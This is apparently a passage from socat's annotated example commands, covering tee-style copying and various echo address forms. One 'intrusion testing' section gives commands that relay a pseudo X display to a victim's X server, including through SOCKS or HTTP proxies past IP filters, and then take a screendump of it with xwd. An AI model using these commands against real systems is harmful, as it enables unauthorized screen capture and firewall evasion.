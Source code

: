 // save piped data similar to 'tee':
// copies stdin to stdout, but writes everything to the file too
$ socat -,echo=0 open:/tmp/myfile,create,trunc,ignoreeof!!/tmp/myfile

///////////////////////////////////////////////////////////////////////////////
// intrusion testing

// found an XWindow Server behind IP filters with FTP data hole? (you are
// lucky!) 
// prepare your host:
# rm -f /tmp/.X11-unix/X1
// relay a pseudo display :1 on your machine to victim:0
# socat UNIX-LISTEN:/tmp/.X11-unix/X1,fork TCP:host.victim.org:6000,sp=20 &
// and try to take a screendump (must be very lucky - when server has not even
// host based authentication!)
# xwd -root -display :1 -silent >victim.xwd

// you sit behind a socks firewall that has IP filters but lazily allows socks
// connections to loopback and has only host based X11 security.
// like above, but from your inside client:
# socat UNIX-LISTEN:/tmp/.X11-unix/X1,fork SOCKS4:firewall:loopback:6000
// or for the HTTP proxy:
# socat UNIX-LISTEN:/tmp/.X11-unix/X1,fork PROXY:firewall:loopback:6000

///////////////////////////////////////////////////////////////////////////////
// forms of stdin with stdout, all equivalent
$ socat echo -
$ socat echo STDIO
$ socat echo STDIN!!STDOUT
$ socat echo STDIO!!STDIO
$ socat echo -!!-
$ socat echo FD:0!!FD:1
$ socat echo 0!!1
$ socat echo /dev/stdin!!/dev/stdout	// if your OS provides these

///////////////////////////////////////////////////////////////////////////////
// some echo address examples
$ socat - PIPE
$ socat - PIPE:/tmp/pipi		// other version of echo
$ socat - PIPE:/tmp/pipi,nonblock!!/tmp/pipi	// other version of echo
$ socat - EXEC:/bin/cat		// another echo
$ socat - SYSTEM:/bin/cat		// another echo
$ socat - TCP:loopback:7	// if inetd echo/TCP service activated
$ socat - UDP:loopback:7	// if inetd echo/UDP service activated
$ socat - /tmp/hugo,trunc,ignoreeof!!/tmp/hugo	// with delay
$ socat - UDP:loopback:2000,bind=:2000	// self "connection"
$ socat - TCP:loopback:2000,bind=:2000	// Linux bug?
# socat - IP:loopback:222	// raw protocol, self "connected" (attention,
// Linux might drop packets with less than 8 bytes payload)
